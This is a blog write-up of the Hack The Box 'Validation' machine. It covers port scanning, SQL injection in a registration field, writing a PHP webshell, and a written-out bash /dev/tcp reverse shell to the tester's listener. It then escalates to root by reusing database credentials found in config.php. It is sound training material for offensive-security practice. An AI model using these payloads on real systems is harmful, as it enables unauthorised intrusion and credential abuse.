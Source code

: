 +++
title = "Validation"
date = "2022-06-22T21:03:46-05:00"
author = "l0gan334"
cover = "Validation.png"
tags = ["hacking", "ctf", "HTB"]
keywords = ["", ""]
description = "**HTB | Validation - Write up**"
showFullContent = false
readingTime = false
hideComments = false
+++

**Validation** is a Hack The Box machine ranked easy.

Its main challenge is **SQL Injection** where we're going to be able to write a **webshell** into the web server. 

# Nmap scan
With **nmap** we will find opened ports and examinate them:
```bash 
❯ nmap -p- -sS --min-rate 5000 --open -n -Pn 10.129.84.93 -oG allPorts
```

We are exporting the result in grepable format, which is great to manage with regex and get all the ports without needing to type them one by one:

{{< code language="bash" title="Here you have an useful function you can use for this manner" id="1" expand="Show" collapse="Hide" isCollapsed="false" >}}
extractPorts () {
	ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')"
	ip_address="$(cat $1 | grep initiated | awk 'NF{print $NF}')"
	echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
	echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp
	echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp
	echo $ports | tr -d '\n' | xclip -sel clip
	echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp
	/bin/batcat extractPorts.tmp
	rm extractPorts.tmp
}
{{< /code >}}
```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.129.84.93
	[*] Open ports: 22,80,4566,8080

[*] Ports copied to clipboard
```

Now that we have the opened ports we can examinate them deeply.
```bash
nmap -sCV -p 22,80,4566.8080 -oN targeted

Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-23 12:55 -05
Nmap scan report for 10.129.84.93
Host is up (0.16s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.98 seconds
```

**Port 80** is opened with a **http** service, we can make a quick inspection with **whatweb**:
```bash
❯ whatweb http://10.129.85.93
http://10.129.84.93 [200 OK] Apache[2.4.48], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.48 (Debian)],
IP[10.129.84.93], JQuery, PHP[7.4.23], Script, X-Powered-By[PHP/7.4.23]
```

We don't get much information so it's time to visit the page:

{{< image src="/img/sc3.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

It's a register panel that doesn't seem to do much...

{{< image src="/img/test.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}


We will intercept the register request with **Burpsuite** so we can do some tests.
{{< image src="/img/val-2.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

After a simple test we see how the *country* field is vulnerable to **SQLI**:
{{< image src="/img/val-1.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}


We could look for credentials in the dabatase but we can also check if we can write files:
{{< image src="/img/val-3.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

We will test this by writing "test" into /var/www/html/test.txt which is the default route where the website files are located:
{{< image src="/img/val-4.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

And it works!

**Wappalyzer** shows us the programming language used by the website:
{{< image src="/img/val-5.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}


So now we can write a simple web shell in **php** and get **Remote Command Execution.**
{{< image src="/img/val-6.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

This script will create a **webshell** in **/shell.php** which takes the parameter **cmd** to execute commands:
{{< image src="/img/val-7.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Now we can get a reverse shell with this payload:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.161/334 0>&1'
```

Here we specify our **IP address** and the **port** where we're going to set the listener.

As we are sending this payload over **URL** the **'&'** might give us syntax problems so we will url-encode this character as **%26**:
{{< image src="/img/val-9.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}


Now we check our listener and we wait for the connection:
```bash
❯ nc -lvnp 334
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::334
Ncat: Listening on 0.0.0.0:334
Ncat: Connection from 10.129.83.187.
Ncat: Connection from 10.129.83.187:46728.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$
```


We have a shell but not a **tty** so we will do a **tty treatment**:
```bash
www-data@validation:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@validation:/var/www/html$ ^Z
zsh: suspended  nc -lvnp 334

❯ stty raw -echo; fg
[1]  + continued  nc -lvnp 334
                              reset
reset: unknown terminal type unknown
Terminal type? xterm
```

And finally the last touches.
```bash
www-data@validation:/var/www/html$ export SHELL=bash
www-data@validation:/var/www/html$ export TERM=xterm
www-data@validation:/var/www/html$ stty rows 40 columns 45
```

This way we will have the correct screen size (you can find your own with ```stty size```) and we are also able to do ^L.


Now that we have everything set we look for the **user flag** and start the enumeration:

```bash
www-data@validation:/var/www/html$ cd /home
www-data@validation:/home$ ls
htb
www-data@validation:/home$ cd htb
www-data@validation:/home/htb$ cat user.txt
18ed73a646e875a23aaaa1**********
```

Nice, we found the **user.txt** now we can move on.

Inside **/var/www/html** we find this:
```bash
www-data@validation:/var/www/html$ ls
account.php  config.php  css  index.php  js
```

There's a configuration file, which are usually very interesting and might contain credentials:
```bash
www-data@validation:/var/www/html$ cat config.php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

These are supposed to be **database** credentials, however, we have to check if they're being reused by any user inside the machine, like **root**:
```text
www-data@validation:/var/www/html$ su root
Password:  
root@validation:/var/www/html# whoami
root
```
And it is! Not a hard privilege escalation this time.

```bash
root@validation:/var/www/html# cat /root/root.txt
8e1b95544267b95044**************
```

See you next time!